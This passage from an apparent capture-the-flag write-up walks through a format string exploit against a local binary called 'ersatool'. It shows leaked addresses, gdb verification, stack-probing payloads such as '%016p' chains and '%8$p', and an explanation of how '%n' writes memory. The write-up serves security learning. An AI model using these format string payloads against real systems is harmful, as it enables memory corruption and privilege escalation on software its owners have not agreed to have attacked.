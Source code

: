     p.interactive()



I have the `p.interactive()` at the end so that the process doesn't die,
and I can connect `gdb` to it and verify the results. When I run, it
prints what looks like a good leak:



    oxdf@parrot$ python3 root.py 
    [+] Starting local process './ersatool': pid 540189
    [+] Leaked EXT address:          0x00005648ade1615f
    [+] Calculated ERSA_DIR address: 0x00005648ade160f0
    [*] Switching to interactive mode
    $



Running `sudo gdb -p $(pidof ersatool)` will attach `gdb` to that pid,
and it worked:



    gdb-peda$ p &ERSA_DIR 
    $1 = (<data variable, no debug info> *) 0x5648ade160f0 <ERSA_DIR>



#### POC Write Memory

The next thing I need to do is write memory to a known address. With all
of the other specifiers, they read a value or a string and put it into
the string. `%n` is different. It takes an address, and writes to that
address the number of bytes output so far.

I want the `%n` to read the address of `ERSA_DIR`, so I'll exploit the
format string vuln again, this time with that address on the stack in a
place I can reference it. I already noted it above, but it's more clear
with `AAAAAAAA%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p` as input:



    print->CN=AAAAAAAA%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.
    AAAAAAAA0x005602a095415f.0x00000000000005.0x000000006e7076.0x00000000000017.0x007ffee58fbb10.0x000001a09501d0.           (nil).0x4141414141414141.[!] ERR reading /opt/easyrsa/clients/AAAAAAAA%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p..ovpn!



The eighth word has all 0x41, which is "A". I can reference the eighth
word by `%8$p`:



    print->CN=AAAAAAAA%8$p
    AAAAAAAA0x4141414141414141[!] ERR reading /opt/easyrsa/clients/AAAAAAAA%8$p.ovpn!



That replaces `%8$p` with the eighth argument on the stack, which
happens to be the string of As.

The next logical step would be to replace the eight As with the address
of `ERSA_DIR` and try to print that back, but it didn't work. That's
because the first couple bytes in the address of `ERSA_DIR` are null,
and thus they terminate the string. The format string is
[defined](https://man7.org/linux/man-pages/man3/printf.3.md) as a
"character string", and it's undefined how to handle null bytes, but it
makes sense that when it hits these null bytes the string is treated as
complete (since null bytes mark the end of a string).
